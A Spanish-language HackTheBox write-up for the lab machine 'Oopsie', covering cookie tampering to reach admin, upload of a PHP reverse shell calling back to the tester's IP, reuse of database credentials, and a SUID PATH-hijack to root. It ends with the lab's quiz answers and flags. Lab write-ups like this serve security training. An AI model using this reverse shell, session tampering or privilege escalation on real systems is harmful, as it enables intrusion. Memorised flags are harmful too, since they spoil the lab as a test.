


Resolución de la máquina Oopsie de la plataforma de HackTheBox
Iniciamos escaneando los puertos de la máquina con nmap
❯ nmap 10.129.62.42
Nmap scan report for 10.129.62.42
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
En la web principal de primeras no vemos mucho realmente

Si pasamos la petición por burpsuite en la pestaña target podemos ver un directorio /cdn-cgi/login
Abrimos ese directorio y podemos ver un login, que por cierto nos permite ingresar como guest
Al entrar como guest podemos ver que las cookies se gestionan con un id y con un role
En la página principal podemos ver una pestaña Uploads donde tal vez podeamos subir archivos
El ingresar a ella podemos ver que necesitamos obtener acceso como Administrador
También encontramos una pestaña Account donde podriamos encontrar un poco de información
En la url se genera con id= y el nuestro es el 2, podemos ver nuestro id y nuestro nombre
http://10.129.62.42/cdn-cgi/login/admin.php?content=accounts&id=2
Podemos cambiar el id a 1 y nos muestra el id y el nombre de el usuario admin
http://10.129.62.42/cdn-cgi/login/admin.php?content=accounts&id=1

Modificamos nuestro identificador a 34322 y el role a admin para usar su sesión
Ahora como admin podemos acceder a la pestaña uploads sin restricciones
Podemos subir un archivo php como el siguiente que nos envie una reverse shell
<?php
system("bash -c 'bash -i >& /dev/tcp/10.10.14.10/443 0>&1'")
?>
Subimos el archivo y nos dice que se ha subido, muy bien pero ¿donde lo ha subido?
Podemos usar wfuzz para conseguir posibles rutas y encontramos el directorio /uploads
❯ wfuzz -c -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -u http://10.129.62.42/FUZZ -t 100 --hc 404
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer *
********************************************************
Target: http://10.129.62.42/FUZZ
Total requests: 30000
=====================================================================
ID Response Lines Word Chars Payload
=====================================================================
000000002: 301 9 L 28 W 313 Ch "images"
000000015: 301 9 L 28 W 310 Ch "css"
000000276: 301 9 L 28 W 312 Ch "fonts"
000000009: 301 9 L 28 W 309 Ch "js"
000000024: 301 9 L 28 W 313 Ch "themes"
000000070: 301 9 L 28 W 314 Ch "uploads"
Llamamos a nuestro archivo shell.php desde el directorio uploads y recibimos una shell
❯ curl http://10.129.62.42/uploads/shell.php
❯ sudo netcat -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.129.62.42
www-data@oopsie:~/html/uploads$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@oopsie:~/html/uploads$ hostname -I
10.129.62.42 dead:beef::250:56ff:feb9:d514
www-data@oopsie:~/html/uploads$
En el directorio /var/www/html/cdn-cgi/login podemos ver un archivo db.php con credenciales
www-data@oopsie:~/html/cdn-cgi/login$ cat db.php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
www-data@oopsie:~/html/cdn-cgi/login$
Son para la db pero podemos reutilizarlas para acceder como el usuario robert con su
www-data@oopsie:~$ su robert
Password: M3g4C0rpUs3r!
robert@oopsie:~$ id
uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)
robert@oopsie:~$ hostname -I
10.129.62.42 dead:beef::250:56ff:feb9:d514
robert@oopsie:~$ cat ~/user.txt
f2c74ee8db7983851ab2a96a44eb7981
robert@oopsie:~$
Buscando binarios suid podemos encontrar uno interesante /usr/bin/bugtracker
robert@oopsie:~$ find / -perm -4000 2>/dev/null
/bin/fusermount
/bin/umount
/bin/mount
/bin/ping
/bin/su
/usr/bin/newuidmap
/usr/bin/passwd
/usr/bin/at
/usr/bin/bugtracker
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/traceroute6.iputils
/usr/bin/newgidmap
/usr/bin/gpasswd
/usr/bin/sudo
robert@oopsie:~$
El binario pertenece a root pero nuestro grupo puede ejecutarlo con el uid de root
robert@oopsie:~$ ls -l /usr/bin/bugtracker
-rwsr-xr-- 1 root bugtracker 8792 Jan 25 2020 /usr/bin/bugtracker
robert@oopsie:~$
Al ejecutarlo y pasarle un id invalido podemos ver que con cat intenta leer un archivo
robert@oopsie:~$ bugtracker
------------------
: EV Bug Tracker :
------------------
Provide Bug ID: test
---------------
cat: /root/reports/test: No such file or directory
robert@oopsie:~$
Si quisieramos ver mas a bajo nivel como funciona, podemos pasar el binario y abrirlo con ghidra
En la funcion main podemos ver todo el código decompilado en C
void main(void)
{
__uid_t __uid;
char *__command;
long in_FS_OFFSET;
undefined local_28 [24];
long local_10;
local_10 = *(long *)(in_FS_OFFSET + 0x28);
printf("%s","\n------------------\n: EV Bug Tracker :\n------------------\n\n");
printf("Provide Bug ID: ");
__isoc99_scanf(&DAT_00100b74,local_28);
printf("%s","---------------\n\n");
__uid = geteuid();
setuid(__uid);
__command = (char *)concat("cat /root/reports/",local_28);
system(__command);
putchar(10);
if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
/* WARNING: Subroutine does not return */
__stack_chk_fail();
}
return;
}
La vulnerabilidad esta en llamar a cat de forma relativa y no absoluta, podemos secuestrar el path
__command = (char *)concat("cat /root/reports/",local_28);
Creamos un archivo cat que nos de una bash y hacer que el path tome nuestra ruta actual primero
robert@oopsie:~$ echo "bash" > cat
robert@oopsie:~$ chmod +x cat
robert@oopsie:~$ export PATH=$PWD:$PATH
Ahora al llamar a cat tomara nuestro cat que es bash y obtendremos una bash como root
robert@oopsie:~$ bugtracker
------------------
: EV Bug Tracker :
------------------
Provide Bug ID: test
---------------
root@oopsie:~# whoami
root
root@oopsie:~# hostname -I
10.129.62.42 dead:beef::250:56ff:feb9:d514
root@oopsie:~# /bin/cat /root/root.txt
af13b0bee69f8a877c3faf667f7beacf
root@oopsie:~#
Vamos con las preguntas que nos pide la web de htb para pwnear la máquina
With what kind of tool can intercept web traffic?
- proxy
What is the path to the directory on the webserver that returns a login page?
- /cdn-cgi/login
What can be modified in Firefox to get access to the upload page?
- cookie
What is the access ID of the admin user?
- 34322
On uploading a file, what directory does that file appear in on the server?
- /uploads
What is the file that contains the password that is shared with the robert user?
- db.php
What executible is run with the option "-group bugtracker" to identify all files owned by the bugtracker group?
- find
Regardless of which user starts running the bugtracker executable, what's user privileges will use to run?
- root
What SUID stands for?
- Set Owner User ID
What is the name of the executable being called in an insecure manner?
- cat
Submit user flag
- f2c74ee8db7983851ab2a96a44eb7981
Submit root flag
- af13b0bee69f8a877c3faf667f7beacf